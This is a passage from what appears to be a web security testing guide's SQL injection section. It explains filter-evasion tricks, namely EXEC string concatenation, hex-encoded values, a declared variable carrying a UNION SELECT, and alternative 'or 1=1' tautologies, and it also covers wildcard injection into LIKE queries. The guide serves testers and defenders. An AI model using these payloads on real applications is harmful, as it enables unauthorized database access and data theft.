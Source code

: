 `EXEC('SEL' + 'ECT 1')`

#### Hex Encoding

Hex encoding technique uses Hexadecimal encoding to replace original SQL statement char. For example, `root` can be represented as `726F6F74`

`Select user from users where name = 'root'`

The SQL statement by using HEX value will be:

`Select user from users where name = 726F6F74`

or

`Select user from users where name = unhex('726F6F74')`

#### Declare Variables

Declare the SQL injection statement into variable and execute it.

For example, SQL injection statement below

`Union Select password`

Define the SQL statement into variable `SQLivar`

```sql
; declare @SQLivar nvarchar(80); set @myvar = N'UNI' + N'ON' + N' SELECT' + N'password');
EXEC(@SQLivar)
```

#### Alternative Expression of 'or 1 = 1'

```sql
OR 'SQLi' = 'SQL'+'i'
OR 'SQLi' &gt; 'S'
or 20 &gt; 1
OR 2 between 3 and 1
OR 'SQLi' = N'SQLi'
1 and 1 = 1
1 || 1 = 1
1 && 1 = 1
```

### SQL Wildcard Injection

Most SQL dialects support both single-character wildcards (usually "`?`" or "`_`") and multi-character wildcards (usually "`%`" or "`*`"), which can be used in queries with the `LIKE` operator. Even when appropriate controls (such as parameters or prepared statements) are used to protect against SQL injection attacks, it may be possible to inject wildcards into queries.

For example, if a web application allows users to enter a discount code as part of the checkout process, and it checks whether this code exists in the database using a query such as `SELECT * FROM discount_codes WHERE code LIKE ':code'`, then entering a value of `%` (which would be inserted in place of the `:code` parameter) would match all of the discount codes.

This technique could also be used to determine exact discount codes through increasingly specific queries (such as `a%`, `b%`, `ba%`, etc).
